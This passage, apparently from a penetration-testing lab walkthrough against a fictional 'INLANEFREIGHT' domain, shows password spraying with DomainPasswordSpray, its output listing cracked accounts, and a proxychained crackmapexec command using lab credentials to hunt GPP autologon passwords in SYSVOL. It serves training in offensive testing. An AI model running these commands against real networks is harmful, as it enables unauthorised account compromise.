 One hash cracks, but checking in BloodHound, the account does not seem to be helpful to us. We can still note down another finding for `Weak Kerberos Authentication Configuration (Kerberoasting)` and move on.

***

## Password Spraying

Another lateral movement technique worth exploring is Password Spraying. We can use [DomainPasswordSpray.ps1](https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1) or the Windows version of Kerbrute from the DEV01 host or use Kerbrute from our attack host via Proxychains (all worth playing around with).

```powershell
PS C:\DotNetNuke\Portals\0> Invoke-DomainPasswordSpray -Password Welcome1

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2913 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): y
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2913 users. Current time is 11:47 AM
[*] SUCCESS! User:kdenunez Password:Welcome1
[*] SUCCESS! User:mmertle Password:Welcome1
[*] Password spraying is complete
```

We find a valid password for two more users, but neither has interesting access. It's still worth noting down a finding for `Weak Active Directory Passwords` allowed and moving on.

***

## Misc Techniques

Let's try a few more things to cover all our bases. We can search the SYSVOL share for `Registry.xml` files that may contain passwords for users configured with autologon via Group Policy.

```shell-session
$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
GPP_AUTO... 172.16.8.3      445    DC01             [+] Found SYSVOL share
GPP_AUTO... 172.16.8.3      445    DC01             [*] Searching for Registry.xml
```
